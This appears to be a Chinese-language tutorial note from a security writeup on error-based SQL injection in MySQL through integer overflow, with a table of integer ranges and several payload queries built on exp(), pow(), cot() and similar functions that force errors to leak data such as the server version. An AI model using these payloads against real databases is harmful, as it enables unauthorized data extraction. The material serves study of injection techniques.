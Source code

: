 ### 数据类型溢出

在mysql版本大于`5.5`时才会产生溢出报错

[https://dev.mysql.com/doc/refman/5.7/en/integer-types.html](https://dev.mysql.com/doc/refman/5.7/en/integer-types.html)

[https://dev.mysql.com/doc/refman/5.7/en/out-of-range-and-overflow.html](https://dev.mysql.com/doc/refman/5.7/en/out-of-range-and-overflow.html)

|Type|Storage (Bytes)|Minimum Value Signed|Minimum Value Unsigned|Maximum Value Signed|Maximum Value Unsigned|
|:---:|:---:|:---:|:---:|:---:|:---:|
|TINYINT|1|-128|0|127|255|
|SMALLINT|2|-32768|0|32767|65535|
|MEDIUMINT|3|-8388608|0|8388607|16777215|
|INT|4|-2147483648|0|2147483647|4294967295|
|BIGINT|8|-2^63|0|2^63-1|2^64-1|

`2^64-1=18446744073709551615`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201211058286.png)

如果一个查询成功执行,则其返回值为0,因此可以利用该返回值进行数学运算

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201211134646.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201211135283.png)

但是整型溢出报错并带出数据只能在某些特定版本使用,在版本大于`5.5.48`时报错不能带出数据

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201211449716.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201211451073.png)

>`exp()`此函数返回e(自然对数的底)的x次方的值

>`pow()`指数运算

>`cot()`cotan

```
select exp(~(select*from(select @@version)x));
select pow(2,~(select*from(select @@version)x));
select cot(!(select*from(select @@version)x));
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201211510567.png)

```
select !atan((select*from(select @@version)x))-~0;
select !cos((select*from(select @@version)x))-~0;
select !ceil((select*from(select @@version)x))-~0;
select !floor((select*from(select @@version)x))-~0;
```

